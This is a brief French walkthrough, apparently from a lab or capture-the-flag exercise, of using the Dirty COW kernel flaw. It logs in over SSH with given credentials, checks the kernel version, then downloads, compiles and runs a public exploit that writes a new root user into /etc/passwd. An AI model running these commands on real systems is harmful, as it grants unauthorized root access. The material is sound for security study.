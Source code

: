 # Dirty Cow 

- Cette faille disponible sur les linux version 2.6.22 (2007) à 4.8.3 (2016) permet d'ecrire sur des fichiers accessible uniquement en lecture seule
- On se connecte a **laurie**:**330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4** en ssh
- On y regarde la version du linux pour savoir si l'exploit est compatible
```
$> uname -r

3.2.0-91-generic-pae
```
- L'exploit est compatible avec notre version de linux
- On lance l'exploit
```
curl -O https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
gcc -pthread dirty.c -o dirty -lcrypt
./dirty
```
- L'exploit arrive a ecrire un nouvelle utilisateur root dans /etc/passwd 

## Source
- [Explication](https://www.cs.toronto.edu/~arnold/427/18s/427_18S/indepth/dirty-cow/index.html#what-is-cow)
- [Excplication Youtube](https://www.youtube.com/watch?v=kEsshExn7aE)
- [Script](https://github.com/FireFart/dirtycow/blob/master/dirty.c)
